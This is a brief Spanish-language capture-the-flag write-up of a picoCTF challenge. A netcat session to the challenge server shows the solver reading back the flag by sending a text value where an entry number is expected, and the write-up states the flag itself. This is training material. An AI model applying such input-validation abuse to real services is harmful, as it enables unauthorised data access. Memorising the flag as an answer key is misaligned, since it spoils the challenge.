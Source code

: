 
## Descripcion

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!Connect to the program with netcat:`$ nc saturn.picoctf.net 65317`The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/139/program-redacted.c).

## Pistas

- Try passing in things the program doesn't expect. Like a string instead of a number.

## Solucion
``` bash 
┌──(kali㉿kali)-[~/…/Repositorio/notas-hacking/Utils/Actividad17]
└─$ nc saturn.picoctf.net 65317
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
AA
AA
Please put in a valid number
No data given.
Please put in a valid number
1
1
Please enter your data:
eeeeeef
eeeeeef
Please enter the length of your data:
123
123
Your entry number is: 1
Write successful, would you like to do anything else?
No data given.
Please put in a valid number
30 
30
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
No data given.
Please put in a valid number
2
2
Please enter the entry number of your data:
2
2

Read successful, would you like to do anything else?
1
1
Please enter your data:
1
1
Please enter the length of your data:
4
4
Your entry number is: 2
Write successful, would you like to do anything else?
4
4
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
5
5
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
2
2
Please enter the entry number of your data:
hola
hola
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}

```

## Bandera
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}


## Notas adicionales

- El programa contine varias validaciones pero estas mismas se pueden 

## Referencias